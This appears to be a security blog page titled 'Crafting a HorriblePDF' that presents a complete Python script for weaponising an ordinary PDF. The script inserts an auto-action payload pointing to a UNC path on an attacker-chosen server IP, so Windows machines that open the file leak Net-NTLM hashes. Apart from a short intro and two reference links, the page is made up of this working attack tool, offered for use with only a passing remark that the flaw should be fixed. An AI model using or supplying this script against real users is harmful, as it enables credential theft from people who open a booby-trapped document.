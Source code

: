 ```yaml
---
layout: attack
title: Crafting a HorriblePDF
---
```


<img height="120" align="left" src="/images/horriblepdf.png">
Transform a normal PDF file into malicious and steal Net-NTLM Hashes from crappy windows machines.
This vulnerability should be fixed but it's still nice to remember it.

References and kudos to:
    - https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/
    - https://github.com/deepzec/Bad-Pdf
    
    
```python
import sys

banner = """
  ___ ___                     ._____.   .__        __________________  ___________
 /   |   \  __________________|__\_ |__ |  |   ____\______   \______ \ \_   _____/
/    ~    \/  _ \_  __ \_  __ \  || __ \|  | _/ __ \|     ___/|    |  \ |    __)  
\    Y    (  <_> )  | \/|  | \/  || \_\ \  |_\  ___/|    |    |    `   \|     \   
 \___|_  / \____/|__|   |__|  |__||___  /____/\___  >____|   /_______  /\___  /   
       \/                             \/          \/                 \/     \/    

Transform a normal PDF file into malicious and steal Net-NTLM Hashes from crappy windows machines.
This vulnerability should be fixed but it's still nice to remember it.

References and kudos to:
    - https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/
    - https://github.com/deepzec/Bad-Pdf
    
"""

def add_payload(data,ip):
    payload = '/AA <</O <</F (\\\\\\\\' + ip + '\\\\test)/D [ 0 /Fit]/S /GoToE>>>>'
    index1 = data.find('/Parent') + 13    
    return data[0:index1] + payload + data[index1:]   


if __name__ == "__main__":
    print(banner)

    if len(sys.argv)!=3:
        print('\nUsage:')
        print('    HorriblePDF.py <normal PDF file Path> <ServerIP>')   
        sys.exit(0)    

    print(f"[*] Normal PDF: {sys.argv[1]}")
    print(f"[*] Server IP: {sys.argv[2]}")
    
    with open(sys.argv[1],'rb') as file_object:
        all_the_text = file_object.read( )

    new_data = add_payload(all_the_text,sys.argv[2])
    new_malicious_path = sys.argv[1] + '.malicious.pdf'
    
    print(f"[+] HorriblePDF: {new_malicious_path}")  
    with open(new_malicious_path, 'wb') as horrible_pdf:
        horrible_pdf.write(new_data)
    print("[*] All Done")

```
